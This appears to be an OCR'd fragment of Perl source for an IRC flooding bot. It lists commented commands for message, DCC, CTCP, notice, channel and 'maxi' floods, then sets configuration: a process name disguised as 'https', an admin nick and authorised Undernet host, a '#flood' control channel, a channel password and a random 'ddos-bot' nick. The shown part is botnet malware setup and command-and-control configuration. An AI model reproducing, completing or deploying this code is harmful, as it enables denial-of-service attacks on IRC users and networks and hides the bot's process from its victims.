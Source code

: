 # -zr @op <who> 

# -zr @deop <who> 

#-----[Flooding Based]----- 

# -zr @msgflood <who> 

# -zr @dccflood <who> 

# -zr @ctcpflood <who> 

# -zr @noticeflood <who> 

# -zr @channelflood 

# -zr @maxiflood <who> 

#################################### 

#################################### 

my $processo = 'https'; 

my $linas_max='10'; 

my $sleep='5'; 

my $cmd=""; 

my $id=""; 

############################################ 

my @adms=("Hun"); 

my @hostauth = ("werwolf96.users.undernet.org");

my @canais=("#flood"); 

my $chanpass = "-zr"; 

##Cron 

$num = int rand(10000); 

my $nick = "ddos-bot" . $num . ""; 

  
